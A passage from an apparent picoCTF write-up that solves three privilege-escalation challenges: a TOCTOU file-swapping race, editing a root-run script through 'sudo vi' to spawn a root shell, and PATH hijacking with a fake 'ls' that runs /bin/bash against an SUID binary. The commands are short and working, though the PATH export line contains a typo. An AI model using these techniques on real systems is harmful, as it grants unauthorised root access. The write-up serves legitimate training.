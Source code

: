 This is a while true loop that will keep switching 2 files we give it.

We compile this program then give it 2 files, the flag and another file that is owned by our user and then we use `txtreader` on `flag.txt`.

![getting tic-tac flag](img/toctou.png)

## Hijacking

Running `sudo -l` we have permissions to run `vi` and the `.server.py` script as root.

We can use `sudo /usr/bin/vi` to edit `.server.py` to execute `/bin/bash` in the `os.system()` call. Then we run `sudo /usr/bin/python3 /home/picoctf/.server.py` and we get a root shell and we can `cat /root/.flag.txt`

![getting Hijacking flag](img/hijackflag.png)


## VNE

This challenge is a simple PATH variable manipulation. Since the binary lists a directory we can assume it runs `ls` and it does have the `SUID` bit set meaning it will run as the owner (root).

First we create a malicious `ls`:

```bash
echo "/bin/bash" > ls
```

Set it as executable:

```bash
chmod +x ls
```

Manipulate `PATH` variable:

```bash
export PATH=$PWD:PATH
```

Then we run `./bin` and get a root shell.

![Getting VNE flag](img/vneflag.png)
